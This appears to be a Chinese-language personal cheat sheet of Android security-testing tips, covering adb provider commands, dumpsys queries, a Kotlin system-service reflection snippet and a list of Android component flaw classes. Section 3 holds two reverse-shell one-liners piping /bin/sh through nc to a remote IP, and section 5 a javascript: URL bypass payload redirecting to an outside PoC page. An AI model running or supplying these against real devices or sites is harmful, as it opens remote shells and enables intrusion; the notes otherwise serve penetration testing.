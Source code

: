 ```yaml
---
title: 小知识
slug: blog/discussion-1/
number: 1
url: https://github.com/CloveIso/notes/discussions/1
date:
  created: 2024-11-19
  updated: 2024-11-19
created: 2024-11-19
updated: 2024-11-19
authors: [ecool]
categories: []
comments: true
---
```


1、应用对应的uid  /data/system/packages.list

2、adb操作provider

```
content query --uri content://icc/adn 
content delete --uri content://settings/settings/pointer_speed
content insert --uri content://settings/settings --bind name:s:my_number --bind value:i:2
```

3、android 反弹shell

```
rm /data/local/tmp/f;mkfifo /data/local/tmp/f;cat /data/local/tmp/f|/bin/sh -i 2>&1|nc 172.22.228.2 2222 >/data/local/tmp/f
nc 172.22.228.2 2222|/bin/sh|nc 172.22.228.2 6666
```

4、查看进程状态和uid状态

```
dumpsys activity processes | grep UidRecord -C 2
```

5、协议绕过

javascript://mall.vivo.com/%0D%0Awindow.location.href='http://172.25.100.118/js_poc.html'

6、android漏洞总结

```
1、activity
越权绕过、钓鱼欺诈/Activity劫持、隐式启动Intent包含敏感数据、拒绝服务攻击、intent重定向
2、service
权限提升漏洞、service劫持、消息伪造、拒绝服务攻击
3、broadcast reciver
敏感信息泄漏漏洞、权限绕过漏洞、消息伪造、拒绝服务
4、provider
信息泄露、sql注入、目录遍历

```

7、调用系统服务

```kotlin
try {
    val getServiceMethod = Class.forName("android.os.ServiceManager").getMethod(
        "getService",
        String::class.java
    )
    val binder = getServiceMethod(null, "companiondevice") as IBinder
    val clsStub = Class.forName("android.companion.ICompanionDeviceManager\$Stub")
    val asInterfaceMethod = clsStub.getDeclaredMethod("asInterface", IBinder::class.java)
    val service = asInterfaceMethod(null, binder)
    val clsProxy = Class.forName("com.vivo.framework.vivo4dgamevibrator.IVivo4DGameVibratorService\$Stub\$Proxy")
    val testMethod = clsProxy.getDeclaredMethod(
        "dualVibrate", // change the method name
        Float::class.java, Int::class.java, Long::class.java, Long::class.java // method args
    )
    testMethod(service, 10)
} catch (e: Exception) {
    e.printStackTrace()
}
```

8、查看权限等级

```
pm list permissions -f (经常报错)
dumpsys package | grep -F "Permission [android.permission.DEVICE_POWER]" -C 3
```

